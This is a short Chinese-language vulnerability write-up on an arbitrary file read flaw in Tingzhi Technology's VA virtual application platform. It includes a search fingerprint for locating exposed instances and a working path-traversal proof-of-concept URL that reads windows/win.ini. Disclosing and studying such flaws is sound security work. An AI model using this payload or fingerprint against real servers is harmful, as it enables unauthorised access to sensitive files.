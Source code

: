 # 霆智科技 VA虚拟应用平台 任意文件读取漏洞

# 霆智科技 VA虚拟应用平台 任意文件读取漏洞

## 漏洞描述

霆智科技 VA虚拟应用平台 存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中敏感信息

## 漏洞影响

霆智科技 VA虚拟应用平台

## 网络测绘

```
body="EAA益和应用接入系统"
```

## 漏洞复现

登陆页面

![image-20230704111747376](/images/image-20230704111747376.png) 

验证POC

```
/..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/windows/win.ini
```

![image-20230704112349037](/images/image-20230704112349037.png)

